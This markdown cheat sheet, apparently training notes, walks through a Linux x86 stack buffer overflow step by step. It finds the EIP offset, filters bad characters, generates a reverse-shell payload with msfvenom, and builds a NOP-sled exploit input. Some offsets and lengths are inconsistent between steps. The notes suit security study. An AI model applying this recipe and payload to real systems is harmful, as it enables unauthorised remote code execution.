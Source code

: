 # buffer overflow Linux x86

## Take control EIP

- Get rough estimate offset
```shell
run $(python2 -c 'print("A" * 1000)')
```

- Create pattern
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200
```

- Calculate exact offset
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

- Verify offset by overwriting EIP
```shell
run $(python2 -c 'print("A" * 1000 + "B" * 4)')
```

## Identify bad chars

- `CHARS` string below.
```shell
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
```python
python2 -c 'print(len("\x00\x01..."))'
```

- Start inspecting bad characters. The 265 is the length of `$CHARS` at this time.

```shell
run $(python2 -c 'print("A" * (1000 - 265) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "B" * 4)')
```

- Use the following command to inspect the stack.

```shell
x/2000xb $esp+500
```

- Iterate the process. Example.

```shell
# remove \x00\x09
run $(python2 -c 'print("A" * (2060 - 254) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a" + "B" * 4)')
```

## Generate shellcode

Consider
- Architecture (e.g. `x86`)
- Platform (e.g. linux)
- Bad characters

Generate shellcode using `msfvenom`.
```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux --arch x86 --format c --bad-chars "\x00\x09\x0a\x20"
```

- Update program input. The `\x90` chars are NOP instructions. 90 is the length of the shellcode in this case.

```shell
run $(python2 -c 'print("A" * (2060 - 120 - 90) + "\x90" * 120 + "shellcode" + "B" * 4)')
```

- Example stack is given below.

```shell
...
0xffffd6b4:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6bc:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6c4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6cc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
...
0xffffd72c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd734:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd73c:     0xbf    0x0c    0xf4    0xbb    0x7c    0xd9    0xcb    0xd9
0xffffd744:     0x74    0x24    0xf4    0x5a    0x31    0xc9    0xb1    0x12
...
```

## Identify return address

- Get a memory address where **only** NOPs are located to tell the EIP to jump to it.
- This memory address must **not** contain any of the bad characters we found earlier.
- Pass the address to the input **backwards** in case of little Endian

Finally, update the EIP overwrite with the memory address found above.
